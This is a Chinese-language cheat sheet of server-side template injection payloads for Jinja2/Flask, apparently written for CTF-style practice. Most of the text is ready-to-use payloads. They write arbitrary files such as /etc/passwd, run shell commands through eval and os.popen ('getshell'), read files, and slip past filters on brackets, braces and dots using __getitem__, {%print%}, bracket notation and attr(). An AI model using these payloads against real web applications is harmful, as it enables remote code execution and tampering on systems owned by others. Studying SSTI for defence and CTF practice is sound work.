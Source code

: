 ```php

\#写文件
写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。
{{"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')}}  ----python2的str类型不直接从属于基类，所以payload中含有两个 .__bases__
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write('123456')}}


\#通用 getshell
原理：找到含有 __builtins__ 的类，利用即可。
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

```

### 有过滤情况
#### 绕过[]
```php
1、使用__getitem__绕过
{{().__class__.__bases__[0]}}
可替换为
{{().__class__.__bases__.__getitem__(0)}}
```

#### 利用{%%}绕过{{}}
<font style="color:rgb(77, 77, 77);">尝试{%%}，想回显内容在外面加个print就行</font>

```php
{%print("".__class__)%}
```

#### 绕过.
使用中括号[]绕过

```php
{{().__class__}} 
可替换为:
{{()["__class__"]}}

举例：
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}
```

使用attr()绕过

```php
attr()函数是Python内置函数之一，用于获取对象的属性值或设置属性值。它可以用于任何具有属性的对象，例如类实例、模块、函数等。

{{().__class__}} 
可替换为：
{{()|attr("__class__")}}
{{getattr('',"__class__")}}

举例：
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}

```
